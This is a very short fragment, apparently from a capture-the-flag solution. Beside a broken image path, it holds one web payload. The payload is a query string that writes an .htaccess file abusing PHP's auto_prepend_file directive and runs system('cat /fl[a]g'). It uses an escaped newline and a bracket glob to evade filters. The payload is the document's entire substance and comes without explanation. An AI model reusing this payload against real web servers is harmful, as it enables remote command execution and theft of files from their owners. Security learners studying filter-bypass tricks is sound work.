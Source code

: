 
?filename=.htaccess&content=php_value%20auto_prepend_fil\%0ae%20.htaccess%0a%23<?
php%20system('cat%20/fl[a]g');?>\
